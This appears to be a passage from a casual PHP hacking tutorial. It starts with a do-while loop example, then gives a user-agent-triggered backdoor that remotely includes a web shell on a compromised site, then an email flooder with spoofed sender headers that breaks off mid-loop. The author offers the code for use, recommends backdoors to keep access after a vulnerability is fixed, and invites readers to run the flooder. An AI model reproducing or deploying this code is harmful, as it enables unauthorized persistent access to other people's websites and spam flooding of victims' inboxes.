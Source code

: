#### Do-while loops  ####

This does the same thing as a while loop but it checks the condition after the action's done. If the condition's true it repeats itself, but if it's false it does it once and only once. 
    <?php
    $roofie = false;
    do {
      echo "Did it anyway, lol";
    } while ($roofie);
    ?>
This is useful if you want the code run at least once but not necessarily further times. 

#### Simple Backdoor in PHP  ####

Because many of you want to go straight to the uber hax, I'll add this little bit in. Please stop reading and Google up the following if you don't know this already: 
1. Basic Understanding of PHP 
2. Remote File Inclusion 
3. Basic web hacking 
4. Web shell (c99, x2300 Locus7s, r57, etc.) 
5. User Agents and how to change them 
Now that you have an idea of what these are, here is how to backdoor a page. If you have access to someone's website, you can slip in this little bit into the PHP page to backdoor their site. When you visit that page with the specified user agent, a web shell will automatically be included. Backdooring a site is recommended for most purposes, because if the site fixes whatever vulnerability you used to get in, you'll still have access. Anyways here is the backdoor: 
    <?php
    $blackdoor = $_SERVER['HTTP_USER_AGENT']; 
    if($blackdoor == "PUT YOUR USER AGENT HERE) 
     { 
      @include('PUTTHEURLTOYOURWEBSHELLHERE'); 
     } 
    ?>

#### Email flooder in PHP  ####

If you want to just copy this and run it off a server, go ahead. Unfortunately most free PHP hosts don't allow you to send mail, but I guess you can run it off your localhost. You must have access to the sendmail binary on your system to run; it's just a matter of configuring php.ini, which I won't go into now. 
You need to have: 
1. a server 
2. basic knowledge of PHP 
3. knowledge on how to install/configure your PHP (pop quiz: should register_globals be kept on or off?)
    <?php
       $spam= $_POST["spams"]; 
    // define number of spam cycles
       $iloled = $_POST["message"];
    // this is the message
       $email = $_POST["email"];
    // define recipient
       $rofl = $_POST["body"];
    // your message
       function head() {
          $sender = $_POST["sender"];
          $header = 'MIME-Version: 1.0 \r\n
       Content-type: text/html; charset=iso-8859-1 \r\n
       From: <' . $sender . '>';
          return($header);
       }
    // spoofed header. i found it easier to write it this way.
       if(isset($_POST["email"])) {
          for($i = 1; $i <= $spam; $i++){
             for($ii = 0; $ii <= $_POST["spams"]; $ii++){